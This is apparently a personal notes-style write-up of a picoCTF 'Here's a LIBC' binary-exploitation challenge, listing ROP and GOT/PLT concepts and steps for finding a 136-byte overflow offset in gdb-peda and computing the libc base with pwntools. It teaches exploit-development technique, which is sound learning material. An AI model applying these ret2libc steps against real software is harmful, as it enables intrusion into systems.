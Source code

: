 # Lesson Learn
- LIBC
- pwninit
- PIE on Linux Binary
    - Position-Independent Executables
    - vs ASLR
- Makefile
- ROP
    - ret2main
    - system() and Stack Alighment
- ROPgadget
- GOT
- PLT
- gdb-peda
    - pattern_create
    - pattern_offset
- pwntools
    - recv(6)
        comination of `recvline()`, trim and padding
        ```python
        a = recvline()
        print(len(a))
        # 6
        recv(6).ljust(8,b"\x00")
        ```
- `readelf`
    - `-s`  
        -s or --symbols: Display the symbol table.
- Stack Alighment

# Write Up
1. fix binary
```zsh
$ pwninit --bin ./vuln --libc ./libc.so.6
```

```
$ ldd ./vuln
$ strings libc.so.6 | grep -i version

$ checksec --file=./vuln_patched --format=json | jq .
```

2. ghidra

3. gdb-peda
```
gdb-peda$ continue
gdb-peda$ stack
gdb-peda$ info register
gdb-peda$ info break
gdb-peda$ pattern_create 200 # buffer over flow
gdb-peda$ pattc 200
gdb-peda$
##############################
##############################
gdb-peda$
gdb-peda$ break *0x4006ef # scanf
gdb-peda$ break *0x400770 # return
gdb-peda$ start
gdb-peda$ pattern_create 200
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
gdb-peda$ c
# copy-and-paste
...
[-------------------------------------code-------------------------------------]
   0x40076e <do_stuff+150>:     nop
   0x40076f <do_stuff+151>:     leave
=> 0x400770 <do_stuff+152>:     ret
   0x400771 <main>:     push   rbp
   0x400772 <main+1>:   mov    rbp,rsp
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdcc8 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0x7fffffffdcd0 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0x7fffffffdcd8 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0x7fffffffdce0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
[------------------------------------------------------------------------------]
...
gdb-peda$ pattern_offset AAQAAm
AAQAAm found at offset: 136
```

4. think about ROP

5. pwntools
- p64

- calculate static offset
    ```console
    $ readelf -s ./libc.so.6 | grep puts
    191: 0000000000080a30   512 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
    422: 0000000000080a30   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
    496: 0000000000126870  1240 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
    678: 0000000000128780   750 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
    1141: 000000000007f260   396 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
    ```
    pwntools
    ```python
    ...
    libc_base=addr-libc.symbols['puts']
    print("static offset ...")
    print(hex(libc.symbols['puts']))
    # 0x80a30
    ...
    ```
6. think about the next ROP


# Ref  
- https://papadoxie.github.io/Writeups/PicoCTF/HeresALIBC/HeresALIBC.html  
- https://cashitsuki.com/posts/2021-12-15-pwninit-manually/  
- https://qiita.com/Hashibirokou/items/8d76fc88bd6daaf8f067  
- https://ret2home.github.io/blog/CTF/picoctf-2021/pwn/hereslibc/
 -https://sh0ebill.hatenablog.com/entry/2022/09/08/211727
- https://qiita.com/tobira-code/items/7ae54a22158aea1a8579  
- https://zenn.dev/kusunoki576/articles/a785672cbc4e0a